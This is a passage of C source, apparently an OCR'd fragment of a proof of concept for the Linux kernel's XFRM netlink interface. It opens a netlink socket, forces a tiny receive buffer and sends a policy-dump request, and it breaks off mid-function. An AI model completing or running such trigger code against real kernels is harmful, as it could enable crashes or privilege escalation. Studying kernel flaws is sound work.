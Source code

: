 #define BUFSIZE 2048


int fd;
struct sockaddr_nl addr;

struct msg_policy {
    struct nlmsghdr msg;
    char buf[BUFSIZE];
};

void create_nl_socket(void)
{
    fd = socket(PF_NETLINK,SOCK_RAW,NETLINK_XFRM);
    memset(&addr,0,sizeof(struct sockaddr_nl));
    addr.nl_family = AF_NETLINK;
    addr.nl_pid = 0; /* packet goes into the kernel */
    addr.nl_groups = XFRMNLGRP_NONE; /* no need for multicast group */

}

void do_setsockopt(void)
{
    int var =0x100;

    setsockopt(fd,1,SO_RCVBUF,&var,sizeof(int));
}

struct msg_policy *init_policy_dump(int size)
{
    struct msg_policy *r;

    r = malloc(sizeof(struct msg_policy));
    if(r == NULL) {
        perror("malloc");
        exit(-1);
    }
    memset(r,0,sizeof(struct msg_policy));

    r->msg.nlmsg_len = 0x10;
    r->msg.nlmsg_type = XFRM_MSG_GETPOLICY;
    r->msg.nlmsg_flags = NLM_F_MATCH | NLM_F_MULTI |  NLM_F_REQUEST;
    r->msg.nlmsg_seq = 0x1;
    r->msg.nlmsg_pid = 2;
    return r;

}
int send_msg(int fd,struct nlmsghdr *msg)
{
    int err;
    err = sendto(fd,(void *)msg,msg->nlmsg_len,0,(struct sockaddr*)&addr,sizeof(struct sockaddr_nl));
    if (err < 0) {
        perror("sendto");
        return -1;
    }
    return 0;
